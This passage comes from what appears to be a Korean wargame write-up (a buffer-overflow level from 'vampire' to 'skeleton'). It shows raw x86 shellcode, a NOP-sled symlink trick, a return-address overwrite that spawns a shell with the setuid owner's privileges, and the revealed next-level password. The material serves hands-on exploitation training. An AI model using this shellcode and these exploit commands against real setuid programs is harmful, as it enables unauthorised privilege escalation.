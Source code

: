 ```bash
```

## 4. 새로운 shellcode 도전

shellcode 에서 죽는 이유는 명확하게 잘 몰라서 새로운 shellcode를 이용해서 다시 공격을 해보자.

```bash
\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3
```


```bash
>  ln -s skeleton `python -c 'print "\x90"*50 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`

>  gdb ./`python -c 'print "\x90"*50 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`
```

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage10-3.png)
![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage10-4.png)

## 5. 공격

`LR` 은 `0xbfffffc0` 으로 선택.

```bash
> ln -s skeleton `python -c 'print "\x90"*50 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'`

> ./`python -c 'print "\x90"*50 + "\x68\xf9\xbf\x0f\x40\x68\xe0\x91\x03\x40\xb8\xe0\x8a\x05\x40\x50\xc3"'` `python -c 'print "A"*44 + "\xc0\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÀ  ¿

bash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)
```

## 6. 다음 단계 정보

```bash
bash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)

bash$ my-pass
euid = 510
shellcoder
```

## 7. 의문점 : 이전 shellcode 에서 죽는 이유는 ?

이전에 사용한 [Linux/x86 - /bin/sh polymorphic shellcode - 48 bytes shellcode](http://shell-storm.org/shellcode/files/shellcode-491.php) 가 죽는 이유… 나중(?)에 좀더 살펴볼 예정.
